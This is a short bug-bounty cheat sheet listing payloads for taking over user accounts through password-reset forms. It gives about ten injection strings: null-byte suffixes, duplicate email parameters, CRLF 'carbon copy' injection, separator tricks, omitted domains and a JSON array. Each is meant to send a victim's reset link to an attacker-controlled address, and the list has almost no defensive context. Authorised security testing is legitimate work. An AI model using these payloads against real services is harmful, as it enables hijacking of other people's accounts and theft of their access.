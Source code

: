 # Account Takeover


### A list of common techniques to take over a user account using password reset

`victim@example.com%00`

Double Parameter

`email=victim@example.com&email=hacker@example.com`

Carbon Copy

`email=victim@example.com%0a%0dcchacker@example.com`

Seperartors

`email=victim@example.com,hacker@example.com`

`email=victim@example.com%20hacker@example.com`

`email=victim@example.com|hacker@example.com`

Omit domain

`email=victim`

Omit TLD

`email=victim.hck`

JSON

`{"email":["victim@example.com","hacker@example.com"]}`

#bugbounty #bugbountytips #awesome-bug-bounty
